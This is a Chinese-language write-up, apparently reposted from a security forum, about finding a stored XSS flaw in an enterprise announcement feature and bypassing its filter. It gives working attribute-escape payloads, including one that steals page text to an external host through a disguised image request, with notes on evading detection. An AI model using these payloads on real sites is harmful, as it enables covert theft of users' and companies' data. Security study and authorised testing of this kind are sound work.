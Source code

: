 #  记录某企业存储型XSS漏洞从发现到数据外泄全路径分析  
 船山信安   2025-06-25 16:00  
  
本文章所分享内容仅用于网络安全相关的技术讨论和学习，注意，切勿用于违法途径，所有渗透测试都需要获取授权，违者后果自行承担，与本文章及作者无关，请谨记守法。  
  
# 0x1. 概述  
  
  
由于漏洞系统比较敏感，下面涉及域名地址的相关图片我就只能厚码打上，感谢各位看官的支持与理解!!!  
  
# 0x2. 正文  
  
#### 0x01 漏洞发现：  
  
  
进入系统后就发现有发布公告的功能点，当然会测试一番，好家伙，被过滤了，在换，再试，然后看js，确实过滤，就不断尝试，burp改包发包验证，常规xss语句看来是弹窗不了；不要问我为什么就觉得这里有问题，问就是凭借直觉和它做了过滤动作，必定有没有过滤到位的，自然也就坚持去搞搞。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LibzcsrG8Yj9x49XCl2ZtOIMDYv1qh0bcIT1E96ofxCDEyibp60OXAd0w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0Lw8Sca7ZKT05ha7d4IVzRwnQD4ZLZibeQiaVfB4h0LOs7Iq4pnk67JaMA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LSibYDIup6B7c7gO8icpWBa51YDe3kX6wJhIHUIofLRPAGshUiaSmSReMQ/640?wx_fmt=png&from=appmsg "")  
  
  
然后就看了，发布公告的里面输入框具体过滤什么，分析后就开始绕过之路！！！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LjPs8DiaEiaamjic1to37HELjibGF3GibcKBdbOFicfnuVGbJjCXguSOxYemg/640?wx_fmt=png&from=appmsg "")  
  
  
从js可以知道  
存在前端过滤+符号转义+禁用字符检测，同时也分析发现前端过滤机制excludeSpecial()函数被注释无效，containSpecial()仅检测$^<>和script关键词，就是使用绕过特殊字符检测，采用无尖括号事件处理器：onmouseover代替onload。  
  
  
  
#### 0x02 验证漏洞：  
  
  
分析后就如下方式尝试构造如下3个poc进行绕过：  
  
1. **语法构造优化**  
- " x="  
：强制闭合原始属性  
- 空格分隔：绕过空格过滤检测  
- 省略引号：采用无引号事件调用  
1. **特征规避技术**  
- 避免使用黑名单字符：  
<>$^  
等  
- 避开关键词：不使用  
script/js/http  
等  
- 使用低频事件处理器：onmouseover> onclick  
<table><tbody><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">POC</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">验证阶段</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">渗透对象</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(1)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">基础验证弹窗</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">事件触发机制</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(document.cookie)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">会话穿透</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">HttpOnly Cookie保护</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;(new Image).src=&#39;...&#39;&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">数据渗出</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0px;padding: 0px;min-height: 24px;text-align: left;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">DOM核心业务节点</span></span></p></td></tr></tbody></table>  
```
" onmouseover="alert(1)" x="1. 关键字符检测仅限 [$^<>]，空格/引号/括号均被放行2. "script"检测可通过事件处理器绕过3. 未监控Image对象请求外部资源行为  
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0L8pWib9stpS9ETmc9aXudiaXUZ4mywtdB06q1DTZkiacPmmk8fXA2owgyw/640?wx_fmt=png&from=appmsg "")  
  
  
DOM精准渗透/流量伪装技术：  
  
```
" onmouseover="alert(document.cookie)" x="    " onmouseover="  (new Image).src='https://x.xxx.xx.xx:8000/log?k='+encodeURIComponent(    document.querySelector('.th_bg').innerText  )" x=" .th_bg             // 定位企业公告核心DOM节点.innerText         // 文本提取避开HTML结构干扰encodeURIComponent // 规避特殊字符警报(new Image).src=   // 伪装图片请求'http://'+IP+端口   // 绕过协议关键字检测/log?k=            // 模拟正常日志请求
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LzVtGfSNOnKOJ8Eb0bdCL3ZKaruLLKMGzd49wfJMTdQJicZicIbTQmLjA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0L161YXUp9lSwGcReSEbyNecYs1AuDqSRmznYNOwhicAfsTWBqjACTlLA/640?wx_fmt=png&from=appmsg "")  
  
  
**漏洞核心突破点**  
：  
  
- 无视  
containSpecial()  
函数对  
$^<>  
和  
script  
的检测  
- 利用前端过滤失效实现HTML属性逃逸  
- 实现从基础弹窗到业务数据窃取的攻击  
- 输入检测盲区 + 渲染层无过滤 = 持久化攻击链  
# 0x3. 总结  
  
  
**根本漏洞链**  
：  
  
     无效过滤函数 → 事件处理器白名单缺失 → 属性逃逸构造 → DOM数据渗出  
  
  
**完整漏洞链**  
：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNhffWZo7DNp9GZwGkS5e0LIP8TydtIY9ukS1gnr9icI4GSFmqvKAB8olEF19lSMvYdx0cpHZEicp5Q/640?wx_fmt=png&from=appmsg "")  
  
  
**渗透测试链路**  
：  
  
```
过滤检测 → 属性逃逸 → 事件注入 → 数据提取 → 外传通道//坚持自己选择，不要遇到绕不过的就放弃了，毕竟有很多事情，不起尝试怎么知道自己不行咯！
```  
# 0x4. 最后忠告  
  
  
XSS漏洞挖掘的本质是语法与规则的对抗。成功的挖掘必须建立在：  
  
1. 对过滤机制的逆向解构  
1. 业务场景数据节点的测绘  
1. 渗出通道的隐蔽性保障 保持对空格/引号/括号等基础语法元素的敏感性，往往比追求复杂攻击技术更有成效！  
转自:  
https://xz.aliyun.com/news/18290  
  
